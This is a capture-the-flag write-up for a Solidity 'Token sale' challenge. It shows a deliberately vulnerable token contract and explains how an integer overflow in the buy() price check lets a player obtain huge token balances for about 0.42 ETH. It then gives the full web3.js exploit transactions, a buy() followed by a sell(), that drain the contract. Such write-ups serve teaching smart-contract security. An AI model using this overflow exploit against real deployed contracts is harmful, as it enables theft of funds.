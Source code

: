 # 09. Token sale

This token contract allows you to buy and sell tokens at an even exchange rate of 1 token per ether.

The contract starts off with a balance of 1 ether. See if you can take some of that away.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```

## Vulnerability

There is a reason that SafeMath is recommended for arithmetic operations in solidity... Overflow and underflow can happen when inputs are not bounded to a safe range. As of Solidity 0.8.0 arithmetic operation check for overflow and underflow automatically reverting if any of those happen.

In the target contract : `require(msg.value == numTokens * PRICE_PER_TOKEN);` is the vulnerability. If you were to send a `numTokens` high enough to cause `numTokens * PRICE_PER_TOKEN` to overflow you would loop back to 0 after reaching 2 ** 256.

So, given that `PRICE_PER_TOKEN` = `1000000000000000000` (1 ETH), we can compute the number of tokens require to overflow as : `OVERFLOW =  2 ** 256 // PRICE_PER_TOKEN` which is equal to : `115792089237316195423570985008687907853269984665640564039457`. Due to rounding errors on integer division we will use `OVERFLOW + 1`.

```solidity
PRICE_PER_TOKEN * OVERFLOW
//115792089237316195423570985008687907853269984665640564039457000000000000000000

PRICE_PER_TOKEN * (OVERFLOW + 1)
// 415992086870360064
```

We will call `buy` for `115792089237316195423570985008687907853269984665640564039458` tokens with the required `msg.value` of `415992086870360064` Wei (0.41... ETH).

```js
const contract = "0xD34746a4338c29431a2310B8FA1eA74Fb885fD33";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "buy",
    type: "function",
    inputs: [{ type: "uint256", name: "numTokens" }],
  },
  ["115792089237316195423570985008687907853269984665640564039458"]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
  value: "415992086870360064",
});
```
Now we need to withdraw 1 ETH, and get out with a net profit of 0.59 ETH :

```js
/* ADD YOUR CODE HERE */
const contract = "0xD34746a4338c29431a2310B8FA1eA74Fb885fD33";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "sell",
    type: "function",
    inputs: [{ type: "uint256", name: "numTokens" }],
  },
  ["1"]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: contract,
  data: data,
});
```

And pass the challenge !